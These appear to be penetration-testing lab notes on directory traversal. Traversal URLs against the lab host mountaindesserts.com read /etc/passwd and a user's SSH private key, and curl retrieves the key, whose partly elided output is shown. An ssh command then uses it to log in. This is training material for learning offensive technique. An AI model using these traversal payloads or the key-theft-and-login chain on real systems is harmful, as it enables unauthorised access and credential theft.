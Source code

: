 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```
